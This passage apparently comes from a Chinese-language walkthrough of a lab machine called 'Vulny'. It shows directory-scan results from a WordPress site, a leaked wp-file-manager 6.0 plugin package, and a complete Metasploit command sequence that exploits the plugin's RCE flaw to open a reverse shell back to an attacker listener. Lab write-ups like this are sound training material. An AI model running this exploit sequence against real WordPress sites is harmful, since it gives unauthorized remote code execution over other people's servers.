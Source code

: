 ```PHP
[19:07:26] 301 -  322B  - /secret/wp-admin  ->  http://192.168.9.14/secret/wp-admin/
[19:07:26] 301 -  324B  - /secret/wp-content  ->  http://192.168.9.14/secret/wp-content/
[19:07:26] 200 -  511B  - /secret/wp-content/
[19:07:26] 500 -  610B  - /secret/wp-content/plugins/akismet/admin.php
[19:07:26] 500 -  610B  - /secret/wp-content/plugins/akismet/akismet.php
[19:07:26] 200 -  469B  - /secret/wp-content/upgrade/
[19:07:26] 200 -  486B  - /secret/wp-content/uploads/
[19:07:26] 403 -  277B  - /secret/wp-includes/
[19:07:26] 301 -  325B  - /secret/wp-includes  ->  http://192.168.9.14/secret/wp-includes/
[19:07:26] 500 -    0B  - /secret/wp-includes/rss-functions.php
[19:07:26] 500 -    3KB - /secret/wp-admin/setup-config.php
```
/secret/readme.html

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/12.Vulny.004.png)

/secret/wp-content/

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/12.Vulny.005.png)

/secret/wp-content/uploads/

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/12.Vulny.006.png)

这里看起来应该是有一个文件目录泄露

在http://192.168.9.14/secret/wp-content/uploads/2020/10/wp-file-manager-6.O.zip

发现了wordpress的插件包

看下里面的readme.txt 获取到了版本 6.0

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/12.Vulny.007.png)

网上搜索一下相关的漏洞https://www.cnblogs.com/FallenStar/articles/17354363.html

## 3. 用msf梭哈

```PHP
msfconsole
search wp-file-manager
use exploit/multi/http/wp\_file\_manager\_rce
set targeturi /secret/
set rhost 192.168.9.14
set rport 80
set lhost 192.168.9.3
set lport 1199
set forceexploit true
run
shell
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/12.Vulny.008.png)
